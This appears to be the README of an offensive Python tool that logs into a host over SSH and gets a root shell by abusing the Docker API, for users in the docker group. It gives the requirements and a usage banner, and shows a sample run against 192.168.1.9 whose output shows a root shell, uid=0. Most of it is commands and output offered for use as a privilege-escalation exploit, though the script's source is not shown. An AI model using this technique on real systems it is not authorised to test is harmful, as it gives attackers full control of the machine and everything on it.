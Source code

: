 # docker_privesc_rce.py

## Summary

This exploit ssh into a machine and gives you a root shell by abuse the docker api if you are part of the docker group.
docker have the same os permissions as root so this is no bug. However this exploit is convinient if you want to
have a root shell

## Requirments

* Your user account need to be part of the 'docker' group.
* install sshpass application

## Exploit

Show usage menu

```sh
 docker_privesc_rce  master ⦿ ./docker_privesc_rce.py

▓█████▄  ▒█████   ▄████▄   ██ ▄█▀▓█████  ██▀███   ██▓███   ██▀███   ██▓ ██▒   █▓▓█████   ██████  ▄████▄   ██▀███   ▄████▄  ▓█████
▒██▀ ██▌▒██▒  ██▒▒██▀ ▀█   ██▄█▒ ▓█   ▀ ▓██ ▒ ██▒▓██░  ██▒▓██ ▒ ██▒▓██▒▓██░   █▒▓█   ▀ ▒██    ▒ ▒██▀ ▀█  ▓██ ▒ ██▒▒██▀ ▀█  ▓█   ▀
░██   █▌▒██░  ██▒▒▓█    ▄ ▓███▄░ ▒███   ▓██ ░▄█ ▒▓██░ ██▓▒▓██ ░▄█ ▒▒██▒ ▓██  █▒░▒███   ░ ▓██▄   ▒▓█    ▄ ▓██ ░▄█ ▒▒▓█    ▄ ▒███
░▓█▄   ▌▒██   ██░▒▓▓▄ ▄██▒▓██ █▄ ▒▓█  ▄ ▒██▀▀█▄  ▒██▄█▓▒ ▒▒██▀▀█▄  ░██░  ▒██ █░░▒▓█  ▄   ▒   ██▒▒▓▓▄ ▄██▒▒██▀▀█▄  ▒▓▓▄ ▄██▒▒▓█  ▄
░▒████▓ ░ ████▓▒░▒ ▓███▀ ░▒██▒ █▄░▒████▒░██▓ ▒██▒▒██▒ ░  ░░██▓ ▒██▒░██░   ▒▀█░  ░▒████▒▒██████▒▒▒ ▓███▀ ░░██▓ ▒██▒▒ ▓███▀ ░░▒████▒
 ▒▒▓  ▒ ░ ▒░▒░▒░ ░ ░▒ ▒  ░▒ ▒▒ ▓▒░░ ▒░ ░░ ▒▓ ░▒▓░▒▓▒░ ░  ░░ ▒▓ ░▒▓░░▓     ░ ▐░  ░░ ▒░ ░▒ ▒▓▒ ▒ ░░ ░▒ ▒  ░░ ▒▓ ░▒▓░░ ░▒ ▒  ░░░ ▒░ ░
 ░ ▒  ▒   ░ ▒ ▒░   ░  ▒   ░ ░▒ ▒░ ░ ░  ░  ░▒ ░ ▒░░▒ ░       ░▒ ░ ▒░ ▒ ░   ░ ░░   ░ ░  ░░ ░▒  ░ ░  ░  ▒     ░▒ ░ ▒░  ░  ▒    ░ ░  ░
 ░ ░  ░ ░ ░ ░ ▒  ░        ░ ░░ ░    ░     ░░   ░ ░░         ░░   ░  ▒ ░     ░░     ░   ░  ░  ░  ░          ░░   ░ ░           ░
   ░        ░ ░  ░ ░      ░  ░      ░  ░   ░                 ░      ░        ░     ░  ░      ░  ░ ░         ░     ░ ░         ░  ░
 ░               ░                                                          ░                   ░                 ░
[nighter@nighter.se]

Usage: ./docker_privesc_rce.py <USERNAME>@<HOST:[PORT]>
```

Run the exploit

```sh
⬢  docker_privesc_rce  master ⦿ ./docker_privesc_rce.py vagrant@192.168.1.9
Password:
# id
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
#
```
